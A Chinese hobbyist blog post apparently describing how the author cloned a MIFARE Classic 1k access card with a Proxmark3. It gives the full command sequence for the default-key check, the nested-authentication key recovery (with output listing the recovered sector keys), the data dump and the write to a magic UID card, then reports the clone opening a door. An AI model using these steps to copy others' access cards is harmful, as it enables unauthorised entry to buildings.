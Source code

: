 ```yaml
---
layoyt: post
title: Clone IC Card with Proxmark3
---
```


好吧，今天高产似母猪。。。

安装好了 Proxmark3 的驱动，自然要玩一玩 IC 卡克隆喽。

IC Card: NXP MIFARE CLASSIC 1k | Plus 2k SL1

1. 读取 IC 卡型号，确定与本实验相同
```
hf 14a read
```
2. 使用厂家常用默认密码碰碰运气，国内好多是 `ffffffffffff`, 我会乱说
```
hf mf chk *1 ? t
```
参数不确定的话，使用 `hf mf chk` 查看，运气好的话
```
Found valid key:[ffffffffffff]
```
3. 利用嵌套认证漏洞，使用任何一个扇区的已知密钥，获取所有扇区的密钥（其实不懂这句话讲什么啦）
```
hf mf nested 1 0 a FFFFFFFFFFFF d
```
结果大致如下
```
Iterations count: 63
|---|----------------|---|----------------|---|          
|sec|key A           |res|key B           |res|          
|---|----------------|---|----------------|---|          
|000|  484558414354  | 1 |  a22ae129c013  | 1 |          
|001|  484558414354  | 1 |  49fae4e3849f  | 1 |          
|002|  484558414354  | 1 |  38fcf33072e0  | 1 |          
|003|  484558414354  | 1 |  000000000000  | 0 |          
|004|  484558414354  | 1 |  509359f131b1  | 1 |          
|005|  484558414354  | 1 |  6c78928e1317  | 1 |          
|006|  484558414354  | 1 |  aa0720018738  | 1 |          
|007|  484558414354  | 1 |  a6cac2886412  | 1 |          
|008|  484558414354  | 1 |  62d0c424ed8e  | 1 |          
|009|  484558414354  | 1 |  e64a986a5d94  | 1 |          
|010|  484558414354  | 1 |  8fa1d601d0a2  | 1 |          
|011|  484558414354  | 1 |  89347350bd36  | 1 |          
|012|  484558414354  | 1 |  66d2b7dc39ef  | 1 |          
|013|  484558414354  | 1 |  6bc1e1ae547d  | 1 |          
|014|  484558414354  | 1 |  22729a9bd40f  | 1 |          
|015|  484558414354  | 1 |  484558414354  | 1 |          
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...
```
res 为 `1` 的话，表示密码正确，`0` 不正确，“一般 B 密码不正确不影响读取数据，可以忽视”

4. dump 数据到本地 dumpdata.bin 文件
```
hf mf dump
```
该文件在之前运行 proxmark3 的 `proxmark3/client/` 目录下，
被克隆的卡现在可以移除了

5. 把 dumpdata.bin 转换成可以刷人其他 IC 卡的 eml 文件，该文件以卡号命名，即 [八个16进制字符的卡号].eml
```
script run dumptoemul.lua
```
生成的 eml 文件同样在 `proxmark3/client/` 目录下

6. 把准备用来克隆的空白卡放在高频卡读卡位置换上，本实验使用俗称 M1 UID 的卡
```
hf mf cload [被克隆卡的八个16进制字符的卡号]
```
如果出现
```
Loaded from file: [八个16进制字符的卡号].eml
```
说明克隆成功！

得瑟地马上去试了一下门禁，完全没有问题。

## Reference
* [http://bouzdeck.com/rfid/32-cloning-a-mifare-classic-1k-tag.html](http://bouzdeck.com/rfid/32-cloning-a-mifare-classic-1k-tag.html)
* 卖家的克隆 IC 卡图片教程
